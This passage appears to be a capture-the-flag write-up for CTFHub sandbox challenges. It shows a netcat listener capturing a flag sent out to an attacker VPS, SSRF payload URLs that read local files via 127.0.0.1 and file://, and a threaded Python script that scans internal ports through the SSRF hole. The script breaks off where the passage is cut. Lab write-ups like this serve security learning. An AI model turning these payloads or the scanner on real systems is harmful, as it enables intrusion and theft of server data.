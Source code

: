 ```
root@-6ca7eb:~# nc -lvp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 222.186.57.91 62145 received!
GET /flag%3Dctfhub%7B926b6edd12dc83ff9f4f8d29%7D HTTP/1.1
Host: YOUR_VPS_ADDR:1111
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36
Accept: */*
Origin: http://challenge-9d951f4923096fbb.sandbox.ctfhub.com:10800
Referer: http://challenge-9d951f4923096fbb.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

flag: `ctfhub{926b6edd12dc83ff9f4f8d29}`

### SSRF - 内网访问

```
http://challenge-ed3e196ba3bb7a32.sandbox.ctfhub.com:10800/?url=http://127.0.0.1/flag.php
```

flag: `ctfhub{6cb292d1e9cae393ef545516}`

### SSRF - 伪协议读取文件

```
http://challenge-4b6547d8234d78c8.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php
```

flag: `ctfhub{b32e088b3d1c052ad448a974}`

### SSRF - 端口扫描

```python
import requests
import queue
import threading
import time

import requests.adapters

urls = [f"http://challenge-d143edf32bd6d1cf.sandbox.ctfhub.com:10800/?url=http://127.0.0.1:{port}" for port in range(8000, 9000)]

retry_strategy = requests.adapters.Retry(total=3, status_forcelist=[429, 500, 502, 503, 504], allowed_methods=["GET"])
session = requests.Session()
adapter = requests.adapters.HTTPAdapter(max_retries=retry_strategy)
session.mount("http://", adapter)

stop_event = threading.Event()

qu = queue.Queue()
for url in urls: qu.put(url)

num_threads = 6

def worker() -> None:
    while not qu.empty() and not stop_event.is_set():
        url = qu.get()
        resp = session.get(url)
        if resp.headers.get('Content-Length') != '0':
            stop_event.set()
            print(f"Found: {url}")
```